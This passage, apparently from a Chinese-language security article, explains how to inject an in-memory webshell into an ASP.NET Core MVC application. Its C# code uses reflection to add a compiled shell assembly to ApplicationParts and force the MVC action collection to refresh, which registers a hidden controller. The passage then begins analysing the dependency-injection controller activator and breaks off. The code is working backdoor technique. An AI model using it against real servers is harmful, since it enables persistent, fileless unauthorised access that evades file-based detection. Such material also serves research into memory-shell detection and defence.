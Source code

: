 ```csharp
    
    }
".Replace("%action_name%", action_name).Replace("%controller_name%", controller_name);

var assemblyShell = Compile(sourceCode);
```

### 内存马注入
#### 默认实例化
默认情况下，只需要将创建好的程序集添加到`ApplicationPartManager.ApplicationParts`中，并且通知MVC框架进行更新。

```csharp
var iActionDescriptorProviderList = (Microsoft.AspNetCore.Mvc.Abstractions.IActionDescriptorProvider[])this.Context.RequestServices.GetService(typeof(IEnumerable<>).MakeGenericType(typeof(Microsoft.AspNetCore.Mvc.Abstractions.IActionDescriptorProvider)));
var actionDescriptorProvider = iActionDescriptorProviderList.FirstOrDefault(m => m.GetType().FullName.Equals("Microsoft.AspNetCore.Mvc.ApplicationModels.ControllerActionDescriptorProvider"));
var partManager = actionDescriptorProvider.GetType().GetField("_partManager", BindingFlags.NonPublic | BindingFlags.Instance).GetValue(actionDescriptorProvider);
var applicationParts = (List<Microsoft.AspNetCore.Mvc.ApplicationParts.ApplicationPart>)partManager.GetType().GetProperty("ApplicationParts").GetValue(partManager);
var assemblyPartType = typeof(Microsoft.AspNetCore.Mvc.ApplicationParts.AssemblyPart);
var assemblyPart = (Microsoft.AspNetCore.Mvc.ApplicationParts.AssemblyPart) Activator.CreateInstance(assemblyPartType, assemblyShell);
applicationParts.Add(assemblyPart); // 添加到ApplicationParts

this.Context.RequestServices.GetService(typeof(Microsoft.AspNetCore.Mvc.Infrastructure.IActionDescriptorCollectionProvider)).GetType().GetMethod("UpdateCollection", BindingFlags.NonPublic | BindingFlags.Instance).Invoke(this.Context.RequestServices.GetService(typeof(Microsoft.AspNetCore.Mvc.Infrastructure.IActionDescriptorCollectionProvider)), null);
```



#### 依赖注入容器实例化
上面默认情况下的注入在这种情况下注入后会导致创建控制器实例的时候，从依赖注入容器中获取服务实例时会为null导致后续流程异常。

所以先来看看`Microsoft.AspNetCore.Mvc.Controllers.ServiceBasedControllerActivator`的实现

![](https://cdn.nlark.com/yuque/0/2025/png/33593053/1738572748563-01b15f96-0766-4cac-96fb-fb69bbfa395b.png)

`actionContext.HttpContext.RequestServices`是一个`Microsoft.Extensions.DependencyInjection.ServiceLookup.ServiceProviderEngineScope`实例，最终调用到了`Microsoft.Extensions.DependencyInjection.ServiceProvider.GetService`

![](https://cdn.nlark.com/yuque/0/2025/png/33593053/1738573162307-f81cf250-8636-47f2-8292-c1c291eeef49.png)

参数一是通过服务类型获得在依赖注入容器的标识符`ServiceIdentifier.FromServiceType(serviceType)`。`ServiceProviderEngineScope`是依赖注入容器的一部分，负责管理服务在特定作用域（例如 HTTP 请求）内的实例化、生命周期和销毁。

主要流程是获取指定类型的`ServiceAccessor`，通过它在容器中动态的获取服务实例

![](https://cdn.nlark.com/yuque/0/2025/png/33593053/1738573538903-88c2eb3b-5a51-41a3-96e4-6f76348e15d8.png)
